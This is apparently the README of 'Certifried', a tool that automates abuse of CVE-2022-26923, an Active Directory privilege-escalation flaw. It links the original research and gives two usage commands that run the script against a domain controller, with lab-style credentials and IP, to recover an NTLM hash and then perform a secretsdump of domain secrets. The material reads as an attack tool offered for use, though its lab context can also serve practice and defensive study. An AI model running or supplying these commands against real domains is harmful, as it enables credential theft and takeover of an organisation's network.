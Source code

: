 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
1. Recover NTLM hash
```
python3 certifried.py lunar.eruca.com/thm:'Password1@' -dc-ip 10.10.154.229 -use-ldap
```
2. Proceed with secretsdump
```
python3 certifried.py lunar.eruca.com/thm:'Password1@' -dc-ip 10.10.154.229 -computer-name Aniq9 -computer-pass 'Password123' -use-ldap -dump
```
